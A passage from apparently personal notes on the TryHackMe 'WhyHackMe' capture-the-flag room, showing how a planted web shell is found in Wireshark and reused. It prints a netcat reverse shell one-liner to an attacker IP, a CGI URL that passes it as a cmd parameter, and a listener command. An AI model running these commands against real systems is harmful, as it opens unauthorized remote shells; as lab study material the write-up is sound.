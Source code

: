 In [Wireshark](../../3%20-%20Tags/Hacking%20Tools/Wireshark.md) you can filter these packages by the following filter:

![Pasted image 20250731130306.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250731130306.png)

We can see a shell is visited several times :

![Pasted image 20250731130527.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250731130527.png)

We can use this hacker [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md) to get access ourself.
## Payload

We have to craft the [Payload](../../3%20-%20Tags/Hacking%20Concepts/Payload.md) so first we need a [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) and i will get it from https://www.revshells.com/ :

```
busybox nc 10.8.162.183 1337 -e sh
```

We copy that then URL encode it here https://www.urlencoder.org/

Now add it to the original URL : `/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=PAYLOAD

We can open our [[Netcat]] listener on the same port specified in the revshell :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/WhyHackMe]
└─$ nc -lvnp 1337 
listening on [any] 1337 ...

```
